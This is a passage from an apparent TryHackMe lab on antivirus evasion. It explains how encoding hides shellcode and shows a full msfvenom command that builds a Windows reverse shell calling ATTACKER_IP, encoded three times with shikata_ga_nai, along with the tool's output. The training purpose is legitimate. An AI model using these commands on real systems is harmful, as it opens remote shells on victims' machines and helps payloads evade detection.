 Encoding is the process of changing the data from its original state into a specific formate depending on the algorithm or type of encoding. It can be applied to many data types such as videos, HTML, URLs and binary files (EXE, Images, etc)

Eoncoding is an important concept that is commonly use for various things including:
- Program compiling and execution
- Data storage and transmission
- Data processiong such as file conversion
Similarly, when it comes to AV evasion techniques, encoding is also used to hide shellcode strings within a binary. However, encoding is not enough for evasion purposes. Nowadays, AV software is more intelligent and can analyze a binary, and once an encoded string is found, it is decoded to check the text's original form.

You can also use two or more encoding algorithms in tandem to make it harder for the AV to figure out the hidden content. The following figure shows that we converted the "THM" string into hexadecimal representation and then encoded it using Base64. In this case, you need to make sure that your dropper now handles such encoding to restore the string to its original state.

![Double Text Encoding Technique](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6b3d06034f60f472a3c3620815d25be1.png)  

What is Encryption?  

Encryption is one of the essential elements of information and data security which focuses on preventing unauthorized access and manipulation of data. The encryption process involves converting plaintext (unencrypted content) into an encrypted version called Ciphertext. The Ciphertext can't be read or decrypted without knowing the algorithm used in encryption as well as the key.

Like encoding, encryption techniques are used for various purposes, such as storing and transmitting data securely, as well as end-to-end encryption. Encryption can be used in two ways: having a shared key between two parties or using public and private keys.

For more information about encryption, we encourage you to check [Encryption - Crypto 101](https://tryhackme.com/room/encryptioncrypto101) room.

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:  

Listing Encoders within the Metasploit Framework

```shell-session
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

We can indicate we want to use the `shikata_ga_nai` encoder with the `-e`(encoder) switch and then specify we want to encode the payload three times with the `-i` (iterations) switch:

Encoding using the Metasploit Framework (Shikata_ga_nai)

```shell-session
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```
